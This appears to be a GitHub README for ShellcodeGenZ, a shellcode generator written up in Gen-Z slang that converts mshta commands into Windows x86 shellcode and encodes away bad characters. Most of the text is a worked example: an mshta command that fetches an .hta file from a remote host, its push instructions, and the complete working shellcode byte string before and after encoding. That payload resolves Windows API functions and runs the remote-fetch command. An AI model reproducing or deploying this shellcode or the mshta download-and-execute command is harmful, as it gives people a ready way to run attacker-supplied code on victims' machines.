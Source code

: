 
# ShellcodeGenZ
![image](https://github.com/user-attachments/assets/8ba517e4-acfd-4162-9720-fe8ec78af641)
![image](https://github.com/user-attachments/assets/8984c1dc-53f4-4f5b-b887-653461ee312e)

Yo, welcome to ShellcodeGenZ, the dopest shellcode generator for commands, crafted by Zeyad Azima (https://zeyadazima.com - contact@zeyadazima.com). This tool's straight-up slayin' the game by whippin' up clean shellcode, yeetin' bad chars like nobody's biz, and droppin' logs so you know what's poppin'. Built with Gen-Z energy, it's got manual and auto modes to fix bad chars, checks for 0x00 like a boss, and keeps the vibes no cap. This is your go-to for shellcode that slaps.

## What's the Vibe?

ShellcodeGenZ takes your commands (like mshta.exe http://192.168.0.1/azi.hta) and turns 'em into shellcode that's ready to flex. It hunts down bad chars (like 0x0a, 0x0b, or the default 0x00), lets you yeet 'em manually or auto with add/subtract offsets, and logs every move so you're never lost. If 0x00 sneaks into push instructions, it's a hard pass—script's outtie. With colored output and Gen-Z slang, it's like codin' with your besties.

## Features That Slap
- mshta Shellcode Gen: Turns mshta commands into lit shellcode.
- Bad Char Yeeter: Spots bad chars and lets you fix 'em manual (pick your hex) or auto (add/subtract offsets).
- Manual Offset Drip: Choose your own offset for auto mode, or let it test 0x01 to 0xff.
- 0x00 Check: Always yeets 0x00 and bails if it's in push instructions.
- Logs for Days: Detailed logs with Gen-Z flair so you know what's good.
- Colorful Vibes: Rockin' colorama for that terminal glow-up.

## Gettin' Set Up

To dodge the externally-managed-environment drama, we settin' up a virtual env. Here's the tea:

1. Make a Virtual Env:
   ```bash
   python3 -m venv venv
   source venv/bin/activate
   ```

2. Snag the Dependencies:
   ```bash
   pip install keystone-engine colorama
   ```

3. Grab the Script:
   Clone this repo or yoink shellcode_genz.py from the files.

4. Yeet the Env (When Done):
   ```bash
   deactivate
   ```

## How to Slay with ShellcodeGenZ

1. Run the Script:
   Fire it up in your virtual env:
   ```bash
   python3 ShellcodeGenZ.py
   ```

2. Drop Your Inputs:
   - mshta command: Like mshta.exe http://192.168.0.1/azi.hta.
   - Bad chars: Comma-separated hex (e.g., 0a,0b). It always checks 0x00, no cap.

3. Yeet Bad Chars:
   - If bad chars pop up, choose to yeet 'em (Y/N).
   - Pick manual (drop new hex values) or automated (add/subtract offsets).
   - For auto, select manual offset (like 01) or automatic (tests all offsets).

4. Check the Output:
   - Shellcode drops as a byte string (e.g., b"\x...\").
   - Logs spill the tea on every step, from instructions to bad char fixes.

### Example Run

Input:
```
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - let's get this shellcode poppin'!
Drop your mshta command to make it lit: mshta.exe https://192.168.0.1/azi.h1
Spill the bad chars to yeet (comma vibes, like '0a,0b'): 01,20,80,81
```

Output (shortened for vibes):
```
2025-04-28 03:11:20,452 - INFO - mshta instructions are straight fire:
push 0x31682e69;
push 0x7a612f31;
push 0x2e302e38;
push 0x36312e32;
push 0x39312f2f;
push 0x3a737074;
push 0x74682065;
push 0x78652e61;
push 0x7468736d;
2025-04-28 03:11:20,454 - INFO - mshta shellcode’s droppin’ like a banger: shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x20\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:20,454 - INFO - Shellcode’s flexin’ at 217 bytes, no cap!
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x81 lurkin’ at index 2! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x81
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 25! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x01 lurkin’ at index 55! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 62! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 63! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 77! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 91! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 104! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 113! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 118! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x20 lurkin’ at index 187! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x20
Wanna yeet those bad chars? (Y/N): Y
You goin’ manual or auto for yeetin’ bad chars? (manual/automated): automated
Yo, what’s the move? Add or subtract for encodin’? (add/subtract): add
You droppin’ your own offset or we auto-pickin’? (manual/automatic): automatic
2025-04-28 03:11:51,821 - INFO - Kickin’ off bad char yeetin’ with add vibes and automatic offset slay
2025-04-28 03:11:51,821 - INFO - Bad chars we gotta yeet: 0x01, 0x20, 0x81
2025-04-28 03:11:51,821 - INFO - Chars we dodgin’: 0x01, 0x20, 0x80, 0x81, 0x00
2025-04-28 03:11:51,822 - INFO - Goin’ auto mode, testin’ offsets 0x01 to 0xff like a boss!
2025-04-28 03:11:51,822 - INFO - Dippin’ past offset 0x01 ‘cause it’s a bad char
2025-04-28 03:11:51,822 - INFO - Checkin’ offset 0x02... let’s see if it slaps
2025-04-28 03:11:51,822 - INFO -   Bad char 0x01 turnin’ into 0x03 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x20 turnin’ into 0x22 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x81 turnin’ into 0x83 (add 0x02)
2025-04-28 03:11:51,822 - INFO - YO, offset 0x02 is straight fire for add!
2025-04-28 03:11:51,822 - INFO - Replacements droppin’: 0x01 -> 0x03, 0x20 -> 0x22, 0x81 -> 0x83
2025-04-28 03:11:51,822 - INFO - Shellcode’s lookin’ fresh with new vibes: shellcode = b"\x89\xe5\x83\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x22\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x03\xdf\x8b\x4f\x18\x8b\x47\x22\x03\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x03\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x03\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x03\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x03\xda\x8b\x04\x8a\x03\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x22\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:51,823 - INFO - New shellcode length’s poppin’ off at 217 bytes!
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - we slayed it, fam!
```

## Got Tea?

Wanna add more drip, report a bug, or just vibe? Hit up the issues tab or slide into Zeyad’s DMs at contact@zeyadazima.com. Let’s keep ShellcodeGenZ the most lit shellcode tool in the game.
